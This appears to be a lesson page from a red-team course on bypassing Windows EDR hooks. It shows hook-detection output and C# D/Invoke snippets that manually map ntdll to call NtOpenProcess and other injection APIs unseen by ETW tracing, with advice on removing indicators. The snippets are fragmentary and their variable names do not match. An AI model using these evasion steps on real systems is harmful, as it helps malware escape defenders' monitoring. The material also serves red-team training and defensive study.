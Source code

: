 If you already have code-execution capabilities on a machine running an EDR, can figure out which APIs are hooked by reading our processes memory space.  [Matt Hand](https://twitter.com/matterpreter) came up with a simple (yet elegant) approach which he published in his [HookDetector](https://github.com/matterpreter/OffensiveCSharp/blob/master/HookDetector/Program.cs) project.  It's based on the premise that the instructions for Nt APIs always start the same way:

```asm
mov r10, rcx
mov eax ...
```

We can find our functions of interest within the instance of ntdll loaded into our process, read the first 4 bytes and compare them to this known pattern.  If they don't match, we can conclude that they're hooked.  Another great "feature" is that this implementation doesn't rely on API that may itself be hooked (such as NtReadVirtualMemory).

Make sure the driver is loaded, then run the tool.  You should get output like this:

```shell
NTDLL Base Address: 0x7FFF29370000
    NtClose                   0x7FFF2940ECE0 - SAFE
    NtAllocateVirtualMemory   0x7FFF2940EE00  - HOOK DETECTED
    Instructions:             E9 D3 13 FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtAllocateVirtualMemoryEx 0x7FFF2940F9B0 - SAFE
    NtCreateThread            0x7FFF2940F4C0 - SAFE
    NtCreateThreadEx          0x7FFF29410370  - HOOK DETECTED
    Instructions:             E9 23 FF FD BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtCreateUserProcess       0x7FFF29410470 - SAFE
    NtFreeVirtualMemory       0x7FFF2940EEC0 - SAFE
    NtLoadDriver              0x7FFF29410C10 - SAFE
    NtMapViewOfSection        0x7FFF2940F000 - SAFE
    NtOpenProcess             0x7FFF2940EFC0  - HOOK DETECTED
    Instructions:             E9 B3 11 FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
    NtProtectVirtualMemory    0x7FFF2940F500 - SAFE
    NtQueueApcThread          0x7FFF2940F3A0 - SAFE
    NtQueueApcThreadEx        0x7FFF29411830 - SAFE
    NtResumeThread            0x7FFF2940F540 - SAFE
    NtSetContextThread        0x7FFF29411D30 - SAFE
    NtSetInformationProcess   0x7FFF2940EE80 - SAFE
    NtSuspendThread           0x7FFF29412350 - SAFE
    NtUnloadDriver            0x7FFF29412490 - SAFE
    NtWriteVirtualMemory      0x7FFF2940F240  - HOOK DETECTED
    Instructions:             E9 F3 0F FE BF CC CC CC F6 04 25 08 03 FE 7F 01 75 03 0F 05 C3 CD 2E C3 0F 1F 84 00 00 00 00 00
```

This shows that **NtAllocateVirtualMemory**, **NtCreateThreadEx,** **NtOpenProcess** and **NtWriteVirtualMemory** are hooked.  We can also see that there are also a lot of APIs that are not hooked.  A perfectly legitimate strategy would be to use a process injection technique that utilises those unhooked APIs, and just avoid the hooked ones altogether.  However, for the purposes of this lesson we're going to explicitly demonstrate how to use these hooked APIs.

  

## Manual Mapping

Use D/Invoke's **Map.MapModuleToMemory()** method to read and map a new instance of ntdll.dll into the process.  This won't stomp over the existing ntdll in memory, but rather be mapped into a new memory region.

```csharp
var ntdll = Map.MapModuleToMemory(@"C:\Windows\System32\ntdll.dll");
```


If you can inspect the memory regions of the process in a debugger, you'll see that the module is allocated in a random piece of memory, not appearing to be backed by a module on disk.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/edr/ntdll-modulebase.png)

  

Setup the parameters for calling **NtOpenProcess** and then use **Generic.CallMappedDLLModuleExport()**, passing in the mapped ntdll module, the name of the export, and the desired parameters.

```csharp
var oa = new Data.Native.OBJECT_ATTRIBUTES();
var cid = new Data.Native.CLIENT_ID
{
    UniqueProcess = (IntPtr)1234
};

var hProcess = IntPtr.Zero;
var parameters = new object[]
{
    hProcess, Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS, oa, cid
};

var status = (Data.Native.NTSTATUS)Generic.CallMappedDLLModuleExport(
    _ntdllMap.PEINFO,
    _ntdllMap.ModuleBase,
    "NtOpenProcess",
    typeof(Native.DELEGATES.NtOpenProcess),
    parameters,
    false);

if (status == Data.Native.NTSTATUS.Success)
    hProcess = (IntPtr)parameters[0];
```

Do this for the remaining APIs and perform the injection as before.  You should not see any of the API calls in the ETW tracing session.

	Don't forget to call **Map.FreeModule(ntdll)** to free the mapped instance of ntdll from the process after use.  There's no need to leave it lying around and may serve as an indicator.  

One downside is that D/Invoke needs to call some APIs such as **NtAllocateVirtualMemory** and **NtWriteVirtualMemory** in order to map the module into memory.
